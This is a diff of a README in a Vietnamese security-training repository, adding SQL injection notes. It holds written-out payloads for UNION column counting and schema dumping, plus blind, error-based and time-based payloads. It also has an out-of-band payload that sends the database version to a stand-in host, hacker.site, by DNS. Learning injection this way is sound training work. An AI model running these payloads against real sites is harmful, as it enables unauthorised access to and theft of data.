

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task2/README.md, the part around one of its changes. Shown at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/task2/README.md
+++ b/task2/README.md
@@ -59,31 +65,69 @@ Sử dụng `' UNION SELECT NULL,NULL--`
 
-* Sau khi tìm ra số cột thì kiểm tra kiểu dữ liệu trong cột
+```
+1' UNION SELECT null-- - Not working
+1' UNION SELECT null,null-- - Not working
+1' UNION SELECT null,null,null-- - Worked
+```
+
+Hoặc sử dụng `ORDER BY` hoặc `GROUP BY`:
+
+```
+1' ORDER BY 1--+    #True
+1' ORDER BY 2--+    #True
+1' ORDER BY 3--+    #True
+1' ORDER BY 4--+    #False - Query is only using 3 columns
+```
+
+- Sau khi tìm ra số cột thì kiểm tra kiểu dữ liệu trong cột
 
 Giả sử ở đây là 4 cột thì
 
 Sử dụng `' UNION SELECT 'a',NULL,NULL,NULL--`. Nếu không có lỗi trả về thì xác đinh cột đầu tiên có kiểu dữ liệu là String từ đó tìm kiếm cột khác
 
-* Từ đó tìm tên cột vvà truy xuất dữ liệu
+- Truy xuất tên db, tên bảng, tên cột:
 
-- Với Blind SQLi:
+ ```
+ #Database names
+-1' UNION SELECT 1,2,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata
 
-Nhập dữ liệu với giá trị boolean
+#Tables of a database
+-1' UNION SELECT 1,2,3,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=[database]
+
+#Column names
+-1' UNION SELECT 1,2,3,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=[table name]
+```
 
 
 
+### Blind SQLi:
 
+Trường hợp này không thể nhìn thấy kết quả truy vấn lỗi nhưng có thể phân biệt được phản hồi đúng hay sai dựa vào nội dung trả về trên trang. Khi đó có thể truy xuất tường ký tự của dữ liệu trong db:
 
+```
+?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
+```
 
-- Tấn công qua input:
- * Dữ liệu nhập vào được đưa browser gửi tới server qua GET hoặc POST method trở thành tham số truy cập tới dữ liệu
+#### Error Blind SQLi:
 
+ Đây là trường hợp tương tự như trước nhưng thay vì phân biệt giữa phản hồi đúng/sai từ truy vấn thì có thể phân biệt giữa lỗi trong truy vấn SQL hay không (có thể do lỗi HTTP server). Do đó, trong trường hợp này có thể buộc một SQLerror mỗi khi bạn đoán đúng ký tự:
 
+ ```
+ AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -
+ ```
 
+#### Time-based SQLi:
 
+ Đây là trường hợp không phân biệt được truy vấn dựa vào ngữ cảnh của trang web. Tuy nhiên có thể biết được kết quả truy vấn đúng hay sai bằng cách xác định thời gian trả về từ database:
+ ```
+ 1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
+ ```
 
+ ### Out-of-Band SQLi
+ Nếu không có phương pháp khai thác nào khác hoạt động thì có thể thử làm cho database lọc ra thông tin sang một máy chủ bên ngoài mà kiểm soát. Ví dụ: thông qua các truy vấn DNS:
 
-
-
+ ```
+ select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
+ ```
 
 
 
````
Also changed, not shown: other parts of task2/README.md (+27 -21 lines).
